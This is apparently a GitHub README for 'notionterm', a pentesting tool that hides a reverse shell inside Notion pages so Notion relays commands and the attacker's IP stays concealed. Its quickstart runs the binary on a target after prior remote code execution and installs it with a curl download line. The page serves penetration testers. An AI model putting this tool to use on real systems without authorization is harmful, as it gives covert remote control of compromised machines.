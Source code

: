<div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>

</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed bidirectionnal HTTP communication between the target and notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion: [Page template](https://fluff-grade-468.notion.site/notionterm-template-19dc9d0bbae04f40b56c475f8cd79607)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm
```

Configuration can be made using:
- Flags
- Configuration table in notion page


## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
